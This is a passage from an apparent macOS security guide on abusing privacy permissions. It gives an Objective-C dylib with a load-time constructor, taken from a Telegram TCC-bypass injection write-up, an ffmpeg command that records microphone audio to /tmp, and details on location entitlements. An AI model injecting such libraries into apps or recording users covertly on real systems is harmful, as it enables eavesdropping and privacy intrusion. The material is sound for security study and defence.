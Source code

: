 {% tab title="ObjectiveC - Check" %}
Check if the app has access to the mricrophone.

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// From https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4
// gcc -framework Foundation -framework AVFoundation -dynamiclib MicTest.m -o MicTest.dylib

@interface MicrophoneAccessChecker : NSObject
+ (BOOL)hasMicrophoneAccess;
@end
@implementation MicrophoneAccessChecker
+ (BOOL)hasMicrophoneAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to microphone granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to microphone denied.");
        return NO;
    }
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    [MicrophoneAccessChecker hasMicrophoneAccess];
}
```
{% endtab %}

{% tab title="Shell" %}
Record a 5s audio and store it in `/tmp/recording.wav`

```bash
# Check the microphones
ffmpeg -f avfoundation -list_devices true -i ""
# Use microphone from index 1 from the previous list to record
ffmpeg -f avfoundation -i ":1" -t 5 /tmp/recording.wav
```
{% endtab %}
{% endtabs %}

### Location

{% hint style="success" %}
For an app to get the location, **Location Services** (from Privacy & Security) **must be enabled,** if not it won't be able to access it.
{% endhint %}

* **Entitlement**: `com.apple.security.personal-information.location`
* **TCC**: Granted in `/var/db/locationd/clients.plist`
